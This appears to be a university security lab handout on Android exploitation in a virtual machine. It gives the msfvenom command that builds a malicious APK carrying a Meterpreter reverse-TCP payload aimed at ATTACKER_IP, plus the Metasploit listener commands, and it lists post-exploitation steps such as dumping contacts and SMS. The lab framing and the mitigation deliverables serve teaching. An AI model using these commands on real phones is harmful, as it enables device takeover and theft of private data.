 # Android Exploitation (Week 9)

## Objective
Use Metasploit to generate a malicious APK, install on Android-x86 VM, establish a Meterpreter session, and assess risks and mitigations.

## Setup
- Android-x86 VM in VirtualBox/Proxmox (bridged or NAT to reach Kali).
- Enable "Unknown sources" inside Android if needed.

## Payload
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=5555 R > evil.apk
```

## Listener
```bash
msfconsole -q
use exploit/multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST ATTACKER_IP
set LPORT 5555
run
```

## Post-Exploitation
- Dump contacts, SMS, take screenshots (where supported by Android build).
- Demonstrate impact, then remove APK and re-snapshot VM.

## Deliverables
- Session screenshots and security recommendations (MAM, app vetting, EDR for mobile).

